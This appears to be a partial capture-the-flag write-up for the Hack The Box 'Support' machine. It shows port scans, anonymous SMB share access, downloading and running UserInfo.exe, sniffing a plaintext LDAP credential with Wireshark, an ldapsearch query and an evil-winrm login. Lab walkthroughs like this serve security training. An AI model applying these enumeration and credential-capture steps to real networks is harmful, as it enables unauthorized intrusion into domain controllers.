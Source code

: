 # Support

## NMAP

* *Rustscan*

```Console
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49676/tcp open  unknown          syn-ack ttl 127
49688/tcp open  unknown          syn-ack ttl 127
49693/tcp open  unknown          syn-ack ttl 127
49715/tcp open  unknown          syn-ack ttl 127
```

* *NMAP*

```Console
PORT      STATE    SERVICE       REASON          VERSION
53/tcp    open     domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open     kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-12-12 06:36:58Z)
135/tcp   open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp   open     ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds? syn-ack ttl 127
464/tcp   open     kpasswd5?     syn-ack ttl 127
594/tcp   filtered tpip          no-response
3268/tcp  open     ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped    syn-ack ttl 127
9389/tcp  open     mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB

* *smbclient list shares anonymous*

```bash
$ smbclient -N -L  \\\\$IP\\

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
support-tools   Disk      support staff tools
SYSVOL          Disk      Logon server share
```

* *crackmapexec spidering folders*

``` bash
$ crackmapexec smb $IP -u rzgami -p "" --spider support-tools --regex .

SMB  10.129.230.181  445 DC   [+] support.htb\rzgami: 
SMB  10.129.230.181  445 DC   [*] Started spidering
SMB  10.129.230.181  445 DC   [*] Spidering .
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/. [dir]
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/.. [dir]
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/7-ZipPortable_21.07.paf.exe                                    
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/npp.8.4.1.portable.x64.zip                                     
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/putty.exe                                                      
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/SysinternalsSuite.zip                                          
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/UserInfo.exe.zip                                               
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/windirstat1_1_2_setup.exe                                      
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/WiresharkPortable64_3.6.5.paf.exe
```

* *Get UserInfo.exe.zip via smbclient*

``` bash
$ smbclient -N  \\\\$IP\\support-tools
> get UserInfo.exe.zip
```

* *Unzip the contents of UserInfo.exe.zip*

``` bash
$ unzip UserInfo.exe.zip

Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config
```

## Wine - trouble

* To Run the exe we needed wine (Windows emulator for linux)
* which lead me to the following error when I ran the UserInfo.exe using Wine

```bash
$ wine ./UserInfo.exe
0118:err:mscoree:CLRRuntimeInfo_GetRuntimeHost Wine Mono is not installed
```

* Upon some troubleshooting on google for answers this is the instant solution which got me sorted at [askubuntu](https://askubuntu.com/a/992215)

```bash
$ wine ./UserInfo.exe

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```

## Wireshark

* In order to see which protocol or how the exe is communicating generally we use wireshark along with the following command

```bash
$ wine ./UserInfo.exe user help

Unable to parse command 'user' reason: Required option '-username' not found!

$ wine ./UserInfo.exe user -username support
[-] Exception: No Such Object
```

![wireshark](./images/support-wireshark.png)
* The simple credentials from the LDAP authentication are as follows
	`nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

## ldapsearch

* we can use ldapsearch for enumerating further

```bash
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldap-enum.txt
```

* looking at info of the user we can find the password disclosed

## User - Own

*  we can use evil-winrm as the winrm port was discovered to be open

```bash
$ evil-winrm -u "support" -p "P@ssword" -i $IP
```